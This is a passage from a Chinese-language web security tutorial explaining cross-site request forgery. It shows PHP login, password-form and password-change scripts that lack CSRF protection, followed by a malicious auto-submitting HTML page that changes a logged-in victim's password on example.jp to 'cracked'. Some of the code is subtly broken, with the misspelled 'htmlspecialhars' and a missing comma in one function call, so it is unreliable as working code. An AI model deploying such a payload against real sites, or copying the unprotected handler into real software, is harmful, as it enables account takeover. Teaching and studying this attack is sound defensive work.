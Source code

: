 CSRF之攻击手段与影响
=================================================================
首先让我们来看一下针对`CSRF`漏洞实施的 **两种典型的攻击模式**。即 **“输入－执行”这种简单模式下的攻击手段** 以及
**中途包含确认页面时的攻击方法**。

### “输入－执行”模式的CSRF攻击
此处用更改密码页面作为“输入－执行”模式下关键处理的例子。以下`PHP`脚本展示了更改密码处理的概要。
```php
//代码清单：/45/45-001.php（登录脚本）

<?php   //用来确认用户已登录的脚本
    session_start();
    $id = @$_GET['id'];
    if(! $id) $id = 'yamada';
    $_SESSION['id'] = $id;
?>
<body>
已登录 (id:<?php echo
    htmlspecialchars($id, ENT_NOQUOTES 'UTF-8'); ?>) <br>
<a href="45-002.php">更改密码</a>
</body>
```
```php
//代码清单：/45/45-002.php（密码输入页面）

<?php
    session_start();
    //确认登录 省略
?>
<body>
<form action="45-003.php" method="POST">
新密码 <input name="pwd" type="password"><br>
<input type="submit" value="更改密码">
</form>
</body>
```
```php
//代码清单：/45/45-003.php（执行更改密码）

<?php
    function ex($s) {       //用于防范XSS的HTML转义及显示处理函数
        echo htmlspecialhars($s, ENT_COMPAT, 'UTF-8');
    }
    session_start();
    $id = $_SESSION['id'];  //取得用户名
    //确认登录 省略
    $pwd = $_POST['pwd'];   //取得用户密码
    //更改密码处理 将用户$id的密码更改为$pwd
?>
<body>
<?php ex($id); ?>
</body>
```
可见，密码在最后的`45-003.php`中被更改。然而，通过此脚本更改密码，还需要满足以下3个条件：
+ 使用`POST`方法请求45-003.php
+ 保持登录状态
+ 使用`POST`参数中的`pwd`指定新密码

而使浏览器发送满足以上条件的请求的攻击即为`CSRF`攻击。**下面就是用来实施`CSRF`攻击的`HTML`文件**。
```php
//代码清单：/45/45-900.html

<body onload="document.forms[0].submit()">
<form action="http://example.jp/45/45-003.php" method="POST">
<input type="hidden" name="pwd" value="cracked">
</form>
</body>
```
**这段代码为实施`CSRF`攻击的恶意网页的`HTML`源代码。攻击者将其置于互联网上，并在其中添加攻击对象网站
用户可能感兴趣的内容，以引诱网站的用户前来浏览**。

用户浏览此`HTML`时的情形如下：
1. 用户登录`example.jp`
2. 攻击者设下圈套。
3. 受害人浏览恶意网站而触发圈套。
4. 攻击者使用恶意网站中的`JavaScript`，使受害人的浏览器向攻击对象网站发送将密码变更为`cracked`的`POST`请求
5. 密码被更改


